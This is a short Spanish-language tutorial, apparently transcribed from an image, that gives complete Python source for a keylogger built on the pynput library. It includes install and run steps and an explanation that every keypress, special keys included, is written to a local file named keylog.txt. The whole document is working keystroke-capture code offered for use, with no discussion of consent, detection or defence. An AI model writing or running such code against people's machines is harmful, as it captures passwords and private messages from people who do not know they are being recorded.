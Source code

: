 Para crear un keylogger en Python necesitamos:

- Python 3
- Biblioteca `pynput` (para capturar teclas)

#### Instalación:

```bash
pip install pynput
```

---

### 🧪 Ejemplo de Keylogger Básico

```python
from pynput import keyboard

# Ruta donde se guardará el archivo de registro
log_file = "keylog.txt"

def guardar_en_archivo(tecla):
    try:
        with open(log_file, "a") as f:
            f.write(f"{tecla.char}")
    except AttributeError:
        # Teclas especiales (shift, enter, etc.)
        with open(log_file, "a") as f:
            f.write(f" [{tecla}] ")

# Escuchador de teclado
with keyboard.Listener(on_press=guardar_en_archivo) as listener:
    listener.join()
```

---

### 🧪 ¿Qué hace este código?

- Escucha cada vez que se presiona una tecla.
- Escribe esa tecla en el archivo `keylog.txt`.
- Soporta letras, números y teclas especiales como `ENTER`, `SPACE`, `SHIFT`.

---

### ▶️ ¿Cómo ejecutarlo?

1. Guarda el código como `keylogger.py`.
2. Ejecuta:

```bash
python keylogger.py
```

3. Abre otro programa (por ejemplo, un bloc de notas) y empieza a escribir.
4. Revisa el archivo `keylog.txt`.

---